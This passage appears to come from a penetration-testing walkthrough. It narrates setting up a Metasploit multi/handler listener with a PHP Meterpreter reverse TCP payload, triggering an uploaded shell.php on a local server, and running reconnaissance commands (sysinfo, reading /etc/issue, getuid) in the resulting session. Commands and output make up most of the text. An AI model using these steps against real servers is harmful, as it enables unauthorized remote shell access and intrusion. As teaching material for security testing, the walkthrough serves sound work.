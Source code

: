 So he launched `msfconsole`.
```bash
$ msfconsole
```
And he used the exploit/multi/handler module.
```txt
msf5 > use exploit/multi/handler 
```
He then proceeded to set the parameters one by one.
```txt
msf5 exploit(multi/handler) > set LHOST 192.168.0.109
```

```txt
msf5 exploit(multi/handler) > set LPORT 4444
```

```txt
set payload php/meterpreter/reverse_tcp
```

The final step was to run the module.

```txt
msf5 exploit(multi/handler) > run
```

Then msf began listening.
```txt

[*] Started reverse TCP handler on 192.168.0.109:4444 

```

At this point, he modified the file address and link as prompted and accessed it:

>`http://192.168.0.116/upload/shell.php`

Msf immediately produced results. It's easy to imagine how poor the server's security measures were.

```txt
[*] Started reverse TCP handler on 192.168.0.109:4444 
[*] Sending stage (38288 bytes) to 192.168.0.116
[*] Meterpreter session 1 opened (192.168.0.109:4444 -> 192.168.0.116:52350) at 2020-09-26 21:33:06 +0800

meterpreter > 
```

Now he began retrieving brief system information, such as the `operating system` and `kernel version`.

```txt
meterpreter > sysinfo
Computer    : localhost
OS          : Linux localhost 2.6.32-754.33.1.el6.x86_64 #1 SMP Tue Aug 25 15:29:40 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > cat /etc/issue
CentOS release 6.10 (Final)
Kernel \r on an \m
```
He also attempted to determine the current user's privileges.
```txt
meterpreter > getuid
Server username: apache (48)
```
